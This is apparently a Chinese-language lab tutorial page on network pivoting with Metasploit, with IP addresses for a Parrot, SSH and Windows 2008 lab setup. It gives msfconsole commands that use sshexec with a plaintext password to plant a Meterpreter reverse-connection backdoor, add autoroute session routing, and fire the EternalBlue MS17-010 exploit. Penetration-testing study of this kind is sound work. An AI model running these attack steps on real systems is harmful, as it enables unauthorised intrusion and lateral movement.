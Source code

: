 Meterpreter
===
🔙 [MENU README](./Pivot%20&%20Double%20Pivot.md)


# Enviroment
Parrot 
```bash
# eth0 : 192.168.0.18
# eth1 : 172.19.19.18
```
SSH
```bash
# eth0 : 192.168.0.70
# eth1 : 172.19.19.70
sudo ifconfig eth0 down
```
Windows 2008 (Web Server)
```bash
# eth0 : 192.168.0.7
# eth1 : 172.19.19.7
Disable 172.19.19.7
```

# MSF
![](./MSF.png)
```
做法:
1. SSH過去SSH Server種Meterpreter後門後會彈一個Reverse Connection回來
2. Session建立後做Session Routing
```
```
MSF的autoroute模組是MSF框架中自帶的路由轉送功能
實作是MSF框架在已經取得的Meterpreter Shell的基礎上
增加一條去往「內網」的路由，直接使用MSF去存取原本不能
直接存取的內部網路資源，只要路由可達我們即可使用MSF來
進行探測
```
SSH
```bash
msfconsole -q
# msf
use exploit/multi/ssh/sshexec
set lhost 192.168.0.18
set rhosts 172.19.19.70
set username administrator
set password Infinit3
exploit
# meterpreter
shell
```
**Session-Routing**
```bash
run get_local_subnets
run post/multi/manage/autoroute OPTION=s
run autoroute -p  #gateway : Session1
background


#也可以使用route add去設置
```
MS17_010
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 192.168.0.7
set lhost  172.19.19.18
check
exploit
```

